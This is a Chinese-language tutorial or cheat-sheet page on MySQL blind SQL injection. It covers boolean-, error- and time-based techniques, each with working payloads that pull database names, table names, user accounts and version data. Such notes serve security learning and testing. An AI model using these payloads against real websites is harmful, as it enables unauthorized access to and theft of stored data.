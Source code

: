 ```yaml
---
layout: default
category: Web安全
tags: [SQL注入]
---
```


## 0x00 盲注的理解

盲注就是在SQL注入的过程中，在SQL语句执行后，选择的数据不能回显到前端页面。需要一些方法进行判断我们的SQL语句是否被执行了，这个过程称之为盲注。分为三类：

* 基于布尔的注入
* 基于报错的注入
* 基于时间的注入

## 0x01 基于布尔的盲注

**常用的函数：**

* mid()
* substr()
* ascii()
* ord()
* left()

**一些payload：**

```
1. left(database(),1) > 'u' # //数据库名的第一个字符

2. ascii(substr((select table_name from information_schema.tables where 		   table_schema=database() limit 0,1) 1, 1)) = 100 --+

3. ascii(substr((select database()),1,1)) = 97 --+

4. ord(mid((select ifnull(CAST(username AS CHAR),0x20)FROM security.users ORDER
BY id LIMIT 0,1),1,1))>97 #

5. regexp正则注入：其他文章有详细介绍
	select user() regexp '^ro'
	1=(if((user() regexp '^r'),1,0));
	1=(select 1 from information_schema.tables
where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);

6. like  匹配注入，和正则类似，MySQL可以有like,其他查找相关函数
	select user() like 'ro%' //返回1或0
```

## 0x02 基于报错的盲注

**常用的函数：**

* concat()	
* updatexml()  //更新xml
* floor()     //向下取整
* rand()     //随机种子
* extractvalue()  //xml查询

目的就是有一个，构造 `payload` 让信息通过错误提示回显

**payload：**

```
1、* union select 1,count(*),concat(0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))
   a from information_schema.columns group by a; //mysql的bug
   * union select count(*) from information_schema.tables group by 	  concat(version(),floor(rand()*2))
   * union select count(*) from (select 1 union select null union
select !1) group by concat(version(),floor(rand(0)*2))
   * select min(@a:=1) from information_schema.tables group by concat(passwo
rd,@a:=(@a+1)%2)

2、* union select exp(~(select * from (select user())a)) //double数值超出范围，版本5.5以上
   * union select !(select * from (select user())x) -（ps:这是减号） ~0
   	//bigint 超出范围；~0 是对0 逐位取反，很大的版本在5.5.5 及其以上

3、extractvalue(1,concat(0x7e,(select database()),0x7e)) //MySQL对xml数据查询，语法报错

4、updatexml(1,concat(0x7e,(select @@version),0x7e),1) //mysql对xml数据进行更新，语法报错

5、union select * from (select name_const(version(),1), name_const(version(),1))x;
	//mysql重复的特性，此处重复了version,所以报错
```

## 0x03 基于时间的盲注

**常用函数：**

* sleep()
* benchmark()   //边信道攻击，占用cpu资源

**payload：**

````
1、if(ascii(substr(database(),1,1))>115,0,sleep(5))%23 //if 判断语句，条件为假，执行sleep

2、union select if(substring(current,1,1)=char(119),benchmark(5000000,ENCODE(‘M
SG’,’by 5 seconds’)),null) FROM (select database() as current) as tb1;
````


